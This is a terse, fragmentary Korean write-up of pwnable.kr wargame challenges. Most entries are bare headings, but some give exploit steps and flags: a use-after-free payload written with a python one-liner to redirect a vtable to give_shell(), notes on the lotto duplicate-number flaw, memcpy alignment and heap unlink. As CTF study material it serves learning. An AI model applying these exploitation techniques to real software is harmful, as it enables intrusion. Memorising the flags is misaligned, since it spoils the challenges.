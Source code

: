 [coin1] 

[blackjack]

[lotto]
 

Flag: sorry mom... I FORGOT to check duplicate numbers... :(

Lotto.c 코드는 숫자 중복 확인을 하지 않는다. 그렇기에, 같은 숫자만 반복해서 입력을 하는 것이 Flag를 얻기 쉽다. 

[cmd1]

[cmd2]




 
[uaf]
(python -c ‘print “\x68\x15\x40\x00”’) > /tmp/test_t
./uaf 4 /tmp/test_t
3
2
2
1
Flag: yay_f1ag_aft3r_pwning

Break case 1
 
 

Man->introduce(); 
Woman->introduce() ;

main+272 부분 (rax: give_shell() 주소) (rax + 8: introduce() 주소) 

 

0x401570 이 0x0040117a 주소를 가리키므로, 0x401568 + 0x8 = 0x401570 
즉, 0x401570 대신 0x401568 을 넣어 give_shell() 함수가 실행할 수 있도록 해준다. 


[memcpy]

nc pwnable.kr 9022

64보다 작은 경우에는 slow_memcpy가 실행되어 값의 변동이 없다., 하지만 64보다 크거나 같은 경우에는 fast_memcpy가 실행되어 (16의 배수) + 8 값 해줘야 한다. 

 

[asm]

 
[unlink]

 

Flag: conditional_write_what_where_from_unl1nk_explo1t

(gdb) p shell
$1 = {<text variable, no debug info>} 0x80484eb <shell>

 

0x0856c428: A의 fd -> B
0x0856c440: B의 fd -> C
0x0856c410:  B의 bk -> A
0x0856c428: C의 bk -> B 
